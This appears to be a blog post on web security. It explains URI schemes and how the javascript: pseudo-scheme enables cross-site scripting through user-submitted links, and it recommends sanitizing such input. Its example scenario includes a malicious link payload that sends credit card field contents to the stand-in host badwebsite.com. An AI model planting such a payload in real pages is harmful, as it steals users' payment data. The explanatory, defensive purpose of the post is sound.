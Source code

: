 ```yaml
---
layout: post
title: Sanitize JavaScript Scheme to Prevent XSS
---
```


Outside of the most commonly known and supported URI schemes (http:// and https://), most modern web browsers support a full roster of alternate and legacy URI schemes.

Here are some alternate URI schemes you may be familiar with already:

 - ftp://
 - mailto:
 - file://

And a few you probably haven't put much thought into, or didn't know existed:

 - javascript:
 - gopher://
 - news:
 - wais://
 - nntp://

URI schemes are the combination of a few separate parts, designed by third parties and adopted into major web browsers. All URI schemes have the following structure:

```javascript
and://my:stuff@test.com:8080/location/sublocation?key=things&stuff=keys#section2
```

Lets break this down into separate pieces before discussing where protocols can be a security issue.

```javascript
and://
``` - This is where the scheme is declared, and the browser first checks this in order to determine what to do with the following strings.

```javascript
my:stuff
``` - This is the "path" often used to express a hierarchy of data. You don't see this in very many URI's, but in older systems a scheme might declare username and password for an email as `joe:mypassword3`.

```javascript
@test.com
``` - Is the host, you see this most frequently in http:// and https:// URI's. This is used to identify a relevant location.

```javascript
:8080
``` - Here we declare the port. All websites and servers require a port to be declared, but you don't see it often in http:// or https:// URI's because browsers default to port 80 (invisibly) if no other port is declared in the URI.

```javascript
location/sublocation
``` - Refers to a file location on the host.

```javascript
?key=things&things=keys
``` - The query, used to pass through conditional data in the URI as if it was a variable.

```javascript
#section
``` - The URI fragment, also used to pass through conditional data. Typically used to preserve state on the client.

Why do we need to worry about URI Schemes?
------------------------------------------

As you probably have guessed, the URI scheme is so flexible that many companies have taken advantage of it to produce their own schemes which have than been adopted into web browsers. Many of these schemes are still supported for legacy reasons, but have not been updated in years or even decades.

The most notorious of this, is the "**JavaScript Pseudo Scheme**" - a scheme that allows you to pass through a string of JavaScript which will be executed in it's own context but with full access to the current DOM and all of it's nodes.

You've probably seen this in code before, but not recognized it. The most common use case is:

```javascript
<a href="javascript:void(0);">click me</a>
```

This trick has been used to create links that did not adhere to normal link behavior in many browsers. Really what's happening is the link is executing the statement ```javascript void(0);``` which returns ```javascript undefined```. Typically a browser will reload the page if a link to itself is clicked, but if the link returns undefined the browser will halt execution. Now you have a link to the current page which can call other JavaScript without causing a page reload.

This use case is generally harmless.

Now lets consider another use case, which you can imagine is usable on many insecure websites and apps. Since you have access to arbitrary JavaScript code execution, you can traverse the DOM tree and collect whatever data you desire. 

Consider the following scenario:


----------

Jon is a hacker who is targeting a popular eCommerce site called BuyStuffNow.

BuyStuffNow is like Amazon, except it allows you to buy from one product page without ever leaving (lots of apps do this). The order process goes like this: click a product -> type in credit card -> click purchase to complete transaction.

Below the product is a comments section, where guests can comment on the item and give reviews / warnings to each other. 

Jon devises a plan to craft a malicious link to put in his BuyStuffNow comment. He writes a legitimate review, with a legitimate link:

"Hi friends. IF YOU ARE GOING TO BUY THIS PLEASE READ THIS REVIEW FIRST. I used the product for three hours, than **this** happened."

The link will be constructed as such:

```javascript <a href="javascript:console.log(new XMLHttpRequest().open('POST', 'http://badwebsite.com').send(document.querySelector('creditCardInfo'));window.open('http://www.legitreview.com/product');">this</a>```

To a uneducated user, this is simply a link to a legitimate review on another website. The user may enter their credit card information and than decide to read the review - in which case their credit card information is sent to a malicious web server and stored for malicious uses.

----------

Because the JavaScript pseudo scheme allows arbitrary JavaScript execution with full access to current DOM nodes, any sensitive data on the page can be recorded and sent elsewhere. This is only one possible scenario where the JavaScript pseudo scheme can present an issue. It could also be used for injecting an entire page of scripts into the current tree or replacing the current DOM with an iframe.

In order to prevent this, we need to ensure wherever user submitted HTML is rendered we are sanitizing or purifying the input. Remove any instances of the JavaScript pseudo scheme so they don't have any capacity for creating malicious links or executing malicious JavaScript. Alternatively, create your own markup language or use an existing one like markdown to better ensure your user's security.
